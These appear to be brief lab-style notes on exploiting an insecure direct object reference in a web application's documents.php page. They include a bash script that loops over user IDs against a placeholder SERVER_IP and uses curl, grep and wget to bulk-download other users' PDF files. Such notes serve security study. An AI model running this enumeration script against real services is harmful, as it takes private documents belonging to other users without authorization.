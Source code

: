 
Changing user specific identity to access objects(change value)
```http
http://SERVER_IP:PORT/documents.php?uid=*
```


Automated Bash Script to loop through all possible files
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
